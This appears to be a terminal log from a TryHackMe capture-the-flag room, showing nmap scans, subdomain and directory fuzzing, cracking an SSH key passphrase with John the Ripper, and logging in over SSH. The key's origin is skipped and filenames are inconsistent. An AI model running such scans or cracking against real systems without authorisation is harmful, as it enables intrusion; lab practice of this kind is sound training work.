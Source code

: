 <code>
https://tryhackme.com/r/room/creative

## Service Enumeration 

└─$ nmap  -sV -Pn  10.10.77.215
Starting Nmap 7.92 ( https://nmap.org ) at 2024-04-29 02:44 CDT
Nmap scan report for 10.10.77.215
Host is up (0.037s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.95 seconds

┌──(duke㉿kali)-[~/Documents/THM_Creative]
└─$ nmap  -A  -Pn  creative.thm
Starting Nmap 7.92 ( https://nmap.org ) at 2024-04-29 03:00 CDT
Nmap scan report for creative.thm (10.10.77.215)
Host is up (0.035s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a0:5c:1c:4e:b4:86:cf:58:9f:22:f9:7c:54:3d:7e:7b (RSA)
|   256 47:d5:bb:58:b6:c5:cc:e3:6c:0b:00:bd:95:d2:a0:fb (ECDSA)
|_  256 cb:7c:ad:31:41:bb:98:af:cf:eb:e4:88:7f:12:5e:89 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Creative Studio | Free Bootstrap 4.3.x template
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.75 seconds

### subdomain enumeration 
┌──(duke㉿kali)-[~/Documents/THM_Creative]
└─$ ffuf -u http://creative.thm -c -w ../../www/wordlists/Subdomain.txt -H 'Host:FUZZ.cretive.thm' -fs 178

## Found beta.creative.thm

### folder enumeration - nothing
┌──(duke㉿kali)-[~/Documents/THM_Creative]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://creative.thm -x .php, .txt, .html                                    
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
[+] Url:                     http://creative.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,
[+] Timeout:                 10s
/assets               (Status: 301) [Size: 178] [--> http://creative.thm/assets/]


┌──(duke㉿kali)-[~/Documents/THM_Creative]
└─$ ssh2john id_rsa2 > hash.txt
                                                                                                                                                                                                                                            
┌──(duke㉿kali)-[~/Documents/THM_Creative]
└─$ john  --wordlist=../../rockyou.txt hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:12 0.00% (ETA: 2024-05-03 20:15) 0g/s 41.55p/s 41.55c/s 41.55C/s hockey..camille
sweetness        (id_rsa2)     
1g 0:00:00:23 DONE (2024-04-29 06:09) 0.04293g/s 41.21p/s 41.21c/s 41.21C/s xbox360..sandy
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

┌──(duke㉿kali)-[~/Documents/THM_Creative]
└─$ ssh -i rsa_id7 saad@creative.thm 
Enter passphrase for key 'rsa_id7': 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)



<\code>
